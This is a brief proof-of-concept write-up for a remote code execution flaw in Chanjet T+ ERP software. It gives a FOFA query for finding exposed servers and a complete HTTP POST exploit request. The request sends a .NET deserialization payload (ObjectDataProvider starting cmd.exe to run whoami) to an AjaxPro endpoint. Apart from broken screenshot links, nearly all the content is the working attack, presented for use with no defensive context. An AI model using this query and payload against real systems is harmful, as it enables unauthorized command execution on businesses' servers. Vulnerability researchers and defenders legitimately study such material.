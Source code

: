 fofa

```
app="畅捷通-TPlus"
```

POC

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: GetStoreWarehouseByStore
Host: ip
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 597

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c whoami > test.txt"
        }
    }
  }
}
```





![image-20240924134228254](C:\Users\qx122\AppData\Roaming\Typora\typora-user-images\image-20240924134228254.png)





![image-20240924134450543](C:\Users\qx122\AppData\Roaming\Typora\typora-user-images\image-20240924134450543.png)
